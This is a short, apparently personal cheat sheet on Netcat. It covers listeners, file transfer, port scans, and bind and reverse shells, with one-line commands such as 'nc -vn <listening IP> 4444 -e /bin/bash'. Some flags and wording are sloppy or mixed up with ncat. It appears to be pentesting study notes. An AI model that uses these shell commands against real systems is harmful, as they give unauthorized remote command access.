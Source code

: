 ## Netcat

Netcat is an all in one network tool but at the latter is where you will sound most of your time with Netcat. 

##### Setup Listening

	nc -nnvp <port you want to listen on>

-e is huge and will allow a bash shell: you can set up: 

	nc -lvnp <portnumber> -e /bin/bash

Connecting to a Listener

	nc <ipaddress> <port number>

##### Sending Files

From listener 
	nc -lvnp > myfile3 (listening side)

to listener

	nc <target ip address> < myfile


##### Setting up a Bind Shell

Listening on remote computer 

	nc -lnvp 4444 -e cmd

Open session on local computer  

	nc -nv <IP> 4444


##### Reverse Bind Shell

Set up listening on local computer 

	nc -lvnp 4444

remote computer sends a reverse shell by 

	nc -vn <listning IP> 4444 -e /bin/bash

##### Securing Netcat

	nc -lvp 444 -e /bin/bash --allow <onlyoneip> --ssl

##### Port Scanning

Full handshake scan

	nc -nvv -w 1 -z <target ip> <port range>

UDP Scan
UDP scan not requiring a handshake. NOTE STELTH scans are no longer hidden from firewalls.  the -u tells nc to use UDP

	nc -unvv -w 1 -z <target ip> <port range>

Its important to note that UPD scanning can lead to false positives because a firewall may drop the packet. 

Return to [[README]]

